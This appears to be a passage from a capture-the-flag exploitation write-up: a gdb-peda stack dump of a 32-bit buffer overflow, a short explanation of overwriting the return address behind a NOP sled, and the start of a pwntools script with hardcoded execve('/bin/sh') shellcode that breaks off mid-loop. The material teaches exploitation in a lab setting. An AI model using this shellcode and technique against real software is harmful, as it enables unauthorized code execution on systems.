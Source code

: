 
```c
Address of the string on the stack when using gdb: 0xffffd84a
```
```bash
EAX: 0x14 
EBX: 0x0 
ECX: 0x13 
EDX: 0x14 
ESI: 0x2 
EDI: 0xf7fc5000 --> 0x1b2db0 
EBP: 0xffffd65c --> 0xffffd668 --> 0x0 
ESP: 0xffffd644 ('A' <repeats 20 times>, "J\330\377\377h\326\377\377\247\204\004\bJ\330\377\377")
EIP: 0x8048448 (<func+45>:      mov    edx,DWORD PTR ds:0x80497b0)
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048437 <func+28>: mov    DWORD PTR ds:0x80497b0,0x0
   0x8048441 <func+38>: jmp    0x8048469 <func+78>
   0x8048443 <func+40>: mov    eax,ds:0x80497b0
=> 0x8048448 <func+45>: mov    edx,DWORD PTR ds:0x80497b0
   0x804844e <func+51>: mov    ecx,edx
   0x8048450 <func+53>: mov    edx,DWORD PTR [ebp-0x4]
   0x8048453 <func+56>: add    edx,ecx
   0x8048455 <func+58>: movzx  edx,BYTE PTR [edx]
[------------------------------------stack-------------------------------------]
0000| 0xffffd644 ('A' <repeats 20 times>, "J\330\377\377h\326\377\377\247\204\004\bJ\330\377\377")
0004| 0xffffd648 ('A' <repeats 16 times>, "J\330\377\377h\326\377\377\247\204\004\bJ\330\377\377")
0008| 0xffffd64c ('A' <repeats 12 times>, "J\330\377\377h\326\377\377\247\204\004\bJ\330\377\377")
0012| 0xffffd650 ("AAAAAAAAJ\330\377\377h\326\377\377\247\204\004\bJ\330\377\377")
0016| 0xffffd654 ("AAAAJ\330\377\377h\326\377\377\247\204\004\bJ\330\377\377")
0020| 0xffffd658 --> 0xffffd84a ('A' <repeats 20 times>, "\035\330\377\377\035\330\377\377I\330\377\377I\330\377\377", '\220' <repeats 16 times>, "hhh\353\374hj\vX1\322Rh//shh/bin\211\343RS\211\341\353", <incomplete sequence \341>)
0024| 0xffffd65c --> 0xffffd668 --> 0x0 
0028| 0xffffd660 --> 0x80484a7 (<main+23>:      add    esp,0x4)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x08048448 in func ()
gdb-peda$ x/24wx $esp
0xffffd644:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd654:     0x41414141      0xffffd84a      0xffffd668      0x080484a7
0xffffd664:     0xffffd84a      0x00000000      0xf7e2a286      0x00000002
0xffffd674:     0xffffd704      0xffffd710      0x00000000      0x00000000
0xffffd684:     0x00000000      0xf7fc5000      0xf7ffdc0c      0xf7ffd000
0xffffd694:     0x00000000      0x00000002      0xf7fc5000      0x00000000
```
Analyzing with gdb we see that when overflowing we overwrite the pointer that is used to read characters from our string that is on the stack, meaning we have to keep that as it is, while overwriting the return pointer, which is after 2 addresses. After that we can put shellcode on the stack, and if we have guessed correctly the address that we have to keep we will guess correctly the address of the shellcode. A NOP sled makes everything even easier.
```python
#!/usr/bin/python

from pwn import *

address = 0xffffd84a
address-=64
shellcode = '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

i = 0
while(i < 512):
    address+=i
    ret = address + 44
```